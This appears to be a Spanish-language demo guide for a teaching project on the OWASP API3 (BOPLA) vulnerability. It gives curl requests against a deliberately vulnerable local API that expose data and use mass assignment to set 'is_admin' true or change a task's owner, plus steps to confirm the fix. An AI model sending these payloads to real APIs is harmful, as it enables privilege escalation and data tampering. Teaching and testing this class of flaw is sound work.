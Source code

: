 
## 📊 **Comandos de Demostración Rápida**

### Branch Vulnerable:
```bash
git checkout demo-vulnerable-bopla
sudo docker compose restart api
```

### Ataques Principales:
```bash
# 1. Excessive Data Exposure
curl -X GET http://localhost:3000/api/usuarios/perfil \
  -H "Authorization: Bearer $TOKEN" | jq '.'

# 2. Mass Assignment en Usuario
curl -X PUT http://localhost:3000/api/usuarios/actualizar-perfil \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"verificado": true, "is_admin": true}'

# 3. System Information Exposure
curl -X GET http://localhost:3000/api/usuarios/info-sistema | jq '.'

# 4. Mass Assignment en Tareas
curl -X PUT http://localhost:3000/api/tareas/1/actualizar-masivo \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"usuarioId": 999, "fechaCreacion": "2020-01-01T00:00:00Z"}'
```

### Verificación de Mitigación:
```bash
git checkout main
sudo docker compose restart api
# Repetir ataques - todos deberían fallar con 404
```

---

## 🛡️ **Comparación con Otras Vulnerabilidades OWASP**

| **Vulnerabilidad** | **Scope** | **Control** | **Ejemplo** |
|--------------------|-----------|-------------|-------------|
| **BOLA (API1)** | Objeto completo | Acceso al recurso | User A accede a perfil de User B |
| **Broken Auth (API2)** | Autenticación | Proceso de login | Bypass de autenticación |
| **BOPLA (API3)** | Propiedades individuales | Campos específicos | User A ve contraseña hash en su perfil |

---
